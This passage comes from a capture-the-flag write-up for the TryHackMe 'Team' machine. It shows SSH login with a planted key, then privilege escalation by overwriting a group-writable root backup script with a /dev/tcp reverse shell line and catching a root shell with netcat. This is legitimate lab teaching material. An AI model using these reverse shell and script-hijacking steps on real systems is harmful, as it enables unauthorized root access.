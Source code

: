 Don't forget to rename the file to `authorized_keys`
```
mv gyles_rsa.pub authorized_keys
ls
authorized_keys  known_hosts
```

Now we can use the private key we created to login as `gyles` on SSH :  
```
attacker@AttackBox:~/Team$ ssh gyles@team.thm -i gyles_rsa 
Last login: Sun Jan 17 15:35:55 2021
gyles@TEAM:~$
```

## Privilege escalation (root)

Now, it's time to get root. Let's see if we are part of other groups :  
```
gyles@TEAM:~$ id
uid=1001(gyles) gid=1001(gyles) groups=1001(gyles),1003(editors),1004(admin)
```

We are part of the `admin` group. Let's try to find files that belong to this group :  
```
gyles@TEAM:~$ find / -type f -group admin 2>/dev/null
/usr/local/bin/main_backup.sh
```

This file seems to be an automated backup script. We have write permissions on it so we can write a reverse shell in it and get a reverse shell as root :  
```
gyles@TEAM:~$ echo '#/bin/bash' > /usr/local/bin/main_backup.sh
gyles@TEAM:~$ echo 'sh -i >& /dev/tcp/10.14.32.60/4545 0>&1' >> /usr/local/bin/main_backup.sh
gyles@TEAM:~$ cat /usr/local/bin/main_backup.sh
#/bin/bash
sh -i >& /dev/tcp/10.14.32.60/4545 0>&1
```

Now, let's start a netcat listener on our host on port 4545 :  
```
attacker@AttackBox:~/Team$ nc -lnvp 4545
listening on [any] 4545 ...
connect to [10.14.32.60] from (UNKNOWN) [10.10.80.243] 48648
sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root),1004(admin)
```

We are root ! Let's get the root flag :  
```
# cd /root
# ls
root.txt
# cat root.txt
THM{************}
```
